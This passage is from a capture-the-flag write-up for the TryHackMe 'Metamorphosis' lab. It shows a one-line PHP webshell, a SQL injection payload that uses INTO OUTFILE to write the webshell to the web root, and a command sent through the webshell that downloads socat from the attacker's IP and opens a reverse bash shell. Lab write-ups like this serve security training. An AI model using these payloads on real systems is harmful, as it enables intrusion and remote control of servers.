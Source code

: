 It worked!

**How about writing a file? Like writing a PHP webshell:**
```php
<?php system($_GET["cmd"]); ?>
```

**Convert it to hex:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3
[...]
>>> import binascii
>>> 
>>> payload = b'''<?php system($_GET["cmd"]); ?>'''
>>> binascii.hexlify(payload)
b'3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e'
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py                                      
[*] Payload: " UNION ALL SELECT NULL,NULL,0x3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e INTO OUTFILE "/var/www/html/webshell.php"-- -
[*] Payload result:
```

**Try to reach our uploaded PHP webshell file:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# curl http://metamorphosis.thm/webshell.php --get --data-urlencode "cmd=id"
\N	\N	uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Yes! We successfully write a PHP webshell to `/webshell.php`!**

Let's get a reverse shell!

- Setup a listener:

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443    
2023/01/11 03:39:13 socat[126873] N opening character device "/dev/pts/1" for reading and writing
2023/01/11 03:39:13 socat[126873] N listening on AF=2 0.0.0.0:443
```

- Send the payload: (Generated from [revshells.com](https://www.revshells.com/))

```shell
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# curl http://metamorphosis.thm/webshell.php --get --data-urlencode "cmd=wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane"
```
